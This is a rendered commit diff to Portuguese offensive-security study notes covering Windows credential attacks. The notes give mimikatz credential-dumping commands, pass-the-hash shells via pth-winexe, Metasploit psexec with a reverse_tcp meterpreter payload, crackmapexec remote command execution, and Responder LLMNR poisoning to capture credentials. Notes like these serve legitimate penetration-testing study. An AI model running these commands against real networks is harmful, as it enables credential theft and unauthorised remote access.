

Before and after one commit to jvrajunior/offensive-security-notes, a Markdown page: notes/notes.md, the part around one of its changes. Shown at 94% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Finalização das aulas sobre de hash de Windows

```diff
--- a/notes/notes.md
+++ b/notes/notes.md
@@ -110,3 +115,38 @@ Com a sessão iniciada no meterpreter, carregue o módulo mimikatz com `load mim
 - `mimikatz_command -f sekurlsa::wdigest -a full`
 - `mimikatz_command -f sekurlsa::searchPasswords`
 - `mimikatz_command -f sekurlsa::logonPasswords`
+
+## Obtendo a shell do alvo
+Com a senha/hash em mãos, podemos tentar nos conetctar ao alvo com uma das opções:
+
+**winexe**
+- `winexe -U user%pass //RHOST cmd.exe `
+
+**pth (Aceita o HASH do usuário)**
+- `pth-winexe -U user%HASH //RHOST cmd.exe `
+
+**psexec (Metasploit)**
+Selecione o módulo **exploit/windows/smb/psexec** e faça as configurações do RHOSTS, SMBUser, SMBPass e SMBDomain. Depois defina o payload da shell reversa **windows/x64/meterpreter/reverse_tcp** e faça a configuração do LHOST e LPORT.
+Execute o comando ``exploit`` e aguarde a conexão ser realizada com sucesso.
+
+## Conexão Remota GUI com o alvo
+Para conectar no alvo utilizando interface gráfica, utilize os comandos:
+- `xfreerdp /u:USER /p:PASS /v:RHOST`
+
+## crackmapexec (Swiss Army Knife)
+Com esse utilitário é possível executar diversas tarefas como escaneamento da rede, conexão remota, enumeração de usuários e muito mais, alguns exemplos de como utilizar:
+
+**Visualizar módulos de SMB no crackmapexec**
+- `crackmapexec smb -L`
+
+**Enumeração de hosts com SMB na rede**
+- `crackmapexec smb 192.168.0.0/24`
+
+**Execução de comando em host com SMB na rede**
+- `crackmapexec smb RHOST -u USER -p 'PASS' -x 'whoami'`
+
+## Responder
+Responder é uma ferramenta muito poderosa para capturar credenciais em uma rede com dispositivos Windows. O responder se aproveita dos protocolos LLMNR e NBT-NS que fazem a identificação de um host na rede para enviar uma confirmação falsa ao solicitande, recebendo dessa forma as credenciais do usuário.
+
+**Utilizar proxy na rede**
+`responder -I eth0 -Prv`
```
Also changed, not shown: other parts of notes/notes.md (+5 -0 lines).
